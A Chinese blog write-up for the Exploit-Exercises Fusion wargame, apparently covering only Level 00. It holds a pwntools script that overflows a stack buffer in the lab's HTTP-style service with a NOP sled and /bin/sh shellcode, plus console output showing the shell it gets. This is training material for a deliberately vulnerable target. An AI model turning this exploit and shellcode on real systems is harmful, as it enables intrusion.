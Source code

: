 ```yaml
---
title: Exploit-Exercise_Fusion全攻略+解析
connments: true
date: 2018-08-03 01:31:36
tags:
	- WARGAME
	- PWN
	- stackoverflow
	- mitigation
categories: WriteUp
desc: 解析猴年马月...没办法，太菜的人没法做输出...
summary: Fusion全解，慢慢写解析中
---
```

目前进度：

- [x] Level 00
- [ ] Level 01
- [ ] Level 02
- [ ] Level 03
- [ ] Level 04
- [ ] Level 05
- [ ] Level 06
- [ ] Level 07
- [ ] Level 08
- [ ] Level 09
- [ ] Level 10
- [ ] Level 11
- [ ] Level 12
- [ ] Level 13
- [ ] Level 14


<!--more-->
# Level 00

```python
#!/usr/bin/python
from pwn import *
import struct

shellcode = '\xb8\x2f\x73\x68\xf0\x25\xff\xff\xff\x0f\x50\xb8\x2f\x62\x69\x6e\x50\x89\xe3\x31\xc0\xb0\x0b\x31\xc9\x31\xd2\xcd\x80'
prefix='GET '
postfix=' HTTP/1.1' 

r=remote('192.168.116.150', 20000)
r.recvuntil('er is at')
addr=int(r.recv()[0:11],16)
#print addr,hex(addr)
print hex(addr+200)
r.sendline(prefix+'G'*139+p32(addr+200)+postfix+'\x90'*100+shellcode)
r.interactive()
```



```bash
root@kali:~/Documents/Fusion# ./level00.py 
[+] Opening connection to 192.168.116.150 on port 20000: Done
0xbffff9c0
[*] Switching to interactive mode
$ id
uid=20000 gid=20000 groups=20000
```

